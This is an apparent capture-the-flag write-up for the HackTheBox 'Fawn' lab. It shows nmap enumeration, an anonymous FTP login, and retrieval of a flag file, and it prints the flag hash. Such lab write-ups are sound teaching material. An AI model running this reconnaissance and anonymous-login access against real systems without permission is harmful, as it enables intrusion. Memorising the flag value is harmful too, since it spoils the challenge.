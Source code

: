 ```yaml
---
title: "HackTheBox - Fawn"
date: 2023-12-24 18:15:00 +0700
categories: [HackTheBox, Starting Point]
tags: [very easy, ftp]
image:
    path: /assets/img/hackthebox/starting_points/Fawn.png
    alt: Fawn - HackTheBox
---
```


[**Fawn**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Fawn we will learn about **FTP (File Transfer Protocol)**.

## Introduction

- Connect **Fawn** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with ping Target IP.

```bash
❯ ping 10.129.137.216

PING 10.129.137.216 (10.129.137.216) 56(84) bytes of data.
64 bytes from 10.129.137.216: icmp_seq=1 ttl=63 time=343 ms
64 bytes from 10.129.137.216: icmp_seq=2 ttl=63 time=239 ms
64 bytes from 10.129.137.216: icmp_seq=3 ttl=63 time=666 ms
64 bytes from 10.129.137.216: icmp_seq=4 ttl=63 time=298 ms

--- 10.129.137.216 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3000ms
rtt min/avg/max/mdev = 238.540/386.458/666.284/165.747 ms
```

### Nmap

To be able to see all open ports, we can use `Nmap`, `-sCV` is a combination of `-sC` and `-sV`, where `-sC` displays the script for the port and `-sV` displays the version info for the port. 

```bash
❯ nmap -sCV 10.129.137.216

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-24 18:42 WIB
Nmap scan report for JSN.JaringanKU (10.129.137.216)
Host is up (1.6s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.104
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.91 seconds
```

## Foothold

OK, you can see the open port 21/tcp which is the FTP service. We can generally connect to FTP by using the username `anonymous` and without using a password.

### FTP

```bash
❯ ftp 10.129.137.216

Connected to 10.129.137.216.
220 (vsFTPd 3.0.3)
Name (10.129.137.216:huda): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 6,8e-05 seconds (460 kbytes/s)
ftp> bye
221 Goodbye.
```

After downloading the file, exit FTP and check your working directory.

```bash
❯ ls
 flag.txt

❯ cat flag.txt
035db21c881520061c53e0536e44f815
```